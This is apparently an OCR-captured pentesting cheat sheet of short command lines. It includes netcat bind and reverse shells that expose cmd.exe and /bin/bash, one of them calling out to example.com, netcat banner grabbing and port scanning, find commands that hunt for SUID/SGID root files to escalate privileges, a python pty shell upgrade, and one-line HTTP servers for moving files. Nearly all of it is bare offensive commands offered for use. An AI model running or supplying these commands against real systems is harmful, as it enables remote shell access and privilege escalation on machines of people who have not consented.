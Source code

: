 
	Banner grabbing with NC
	nc 192.168.0.10 80
	GET / HTTP/1.1
	Host: 192.168.0.10
	User-Agent: Mozilla/4.0
	Referrer: www.example.com
	<enter>
	<enter>


	Window reverse shell
	c:>nc -Lp 31337 -vv -e cmd.exe
	nc 192.168.0.10 31337
	c:>nc example.com 80 -e cmd.exe
	nc -lp 80


	Linux shell
	nc -lp 31337 -e /bin/bash
	nc 192.168.0.10 31337
	nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000


	Find SUID\SGID root files
	# Find SUID root files
	find / -user root -perm -4000 -print
	# Find SGID root files:
	find / -group root -perm -2000 -print
	# Find SUID and SGID files owned by anyone:
	find / -perm -4000 -o -perm -2000 -print
	# Find files that are not owned by any user:
	find / -nouser -print
	# Find files that are not owned by any group:
	find / -nogroup -print
	# Find symlinks and what they point to:
	find / -type l -ls


	Python shell
	python -c 'import pty;pty.spawn("/bin/bash")'


	Python\Ruby\PHP HTTP Server
	python2 -m SimpleHTTPServer
	python3 -m http.server
	ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 8888, :DocumentRoot => Dir.pwd).start"
	php -S 0.0.0.0:8888

